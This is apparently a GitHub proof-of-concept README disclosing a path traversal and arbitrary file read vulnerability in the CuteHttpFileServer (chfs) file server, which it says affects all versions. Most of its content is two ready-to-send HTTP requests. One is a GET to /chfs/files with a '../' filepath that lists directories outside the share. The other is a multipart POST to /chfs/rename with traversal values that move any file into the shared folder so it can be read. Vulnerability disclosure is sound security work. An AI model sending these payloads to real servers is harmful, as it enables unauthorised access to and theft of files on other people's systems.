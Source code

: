 # CuteHttpFileServer_POC
Path Traversal Vulnerability and Arbitrary File Read Vulnerability in CuteHttpFileServer

# Description
The CuteHttpFileServer/chfs is a lightweight file server that allows users to share files over HTTP.

Official website: http://iscute.cn/chfs  
Affected versions: `ALL`

The vulnerability exists due to insufficient input validation in the CuteHttpFileServer application. By manipulating the parameter `filepath` of api `chfs/files`, an attacker can traverse the file system to list files and directories outside of the intended scope. 

And through the `/chfs/rename` interface, an attacker can move and rename any file. By moving sensitive files to share_main, they can gain direct access to them, resulting in arbitrary file read.

# POC
```
GET /chfs/files?filepath=../../../../../../../../../../../&_=1708158598149 HTTP/1.1
Host: any-chfs-server.com
```
![POC0](POC0.png)

![POC1](POC1.png)

```
POST /chfs/rename HTTP/1.1
***
------WebKitFormBoundary3Kb98CNqifhhTR6B
Content-Disposition: form-data; name="new"

../../../../DESTINATION_PATH_to_MOVE
------WebKitFormBoundary3Kb98CNqifhhTR6B
Content-Disposition: form-data; name="old"

../../../../FILE_SOURCE
------WebKitFormBoundary3Kb98CNqifhhTR6B
```

![POC2](POC2.png)
